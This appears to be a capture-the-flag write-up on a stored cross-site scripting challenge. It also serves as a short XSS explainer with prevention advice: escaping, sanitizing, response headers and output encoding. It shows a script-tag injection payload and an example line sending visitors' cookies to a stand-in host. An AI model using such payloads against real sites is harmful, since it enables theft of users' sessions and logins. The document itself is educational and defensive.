

On the Feedback page, we can leave comments and see that comment.  

A website is vulnerable to cross-site scripting (XSS) attacks if users can enter information that the site repeats back to them in a page’s HTML.  

To check if this page is vulnerable to XSS attacks, we can inject a payload that causes our browser to execute some Javascript command.
When trying to input a Javascript command like alert(), (or even script), we get the flag.  

It is about XSS (Cross Scripting) attacks, which consists in injecting malicious scripts in the website. 

### Example
```
A page allows you to enter your name, which is output as is on your profile page.
Bob enters his name as `Bob <script>alert('Hello Bob!')</script>`.
Anyone who visits Bob’s profile page gets some HTML including the unescaped script tag, which their browser runs.
If the alert() were changed to something more malicious, like sendCookies('https://something.com/bad-cookie'), Bob may now be collecting the unsuspecting visitor’s login information.
```


An attacker can use XSS to send a malicious script to an end user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script.  
The script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site.  
The malicious content sent to the web browser often takes the form of a segment of JavaScript, but may also include HTML, Flash, or any other type of code that the browser may execute.  

Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users. When the malicious code executes inside a victim's browser, the attacker can fully compromise their interaction with the application.


To prevent this:  
- Filter input based on what is expected, or what is a valid input  
- Escape user input. Escaping means to convert the key characters in the data that a web page receives to prevent the data from being interpreted in any malicious way. It doesn't allow the special characters to be rendered.
	-> for example, &lt;p&gt is <p>, but will not be interpreted as a <p> tag, it will literally print "<p>"
- Sanitize data. Examine and remove unwanted data, such as HTML tags that are deemed to be unsafe. Keep the safe data and remove any unsafe characters from the data.  

- use response headers, to prevent XSS in HTML responses that aren't supposed to contain any JS or HTML. (Content-Type and X-Content-Type-Options headers)
- ensure that all variable output in a page is encoded before it is returned to the user. When you encode variable output, you substitute HTML markup with alternative representations that are called entities. The browser displays the entities but doesn't run them. When a browser renders the entities, they're converted back to HTML and printed but they aren't run.


  


https://portswigger.net/web-security/cross-site-scripting  
https://benhoyt.com/writings/dont-sanitize-do-escape/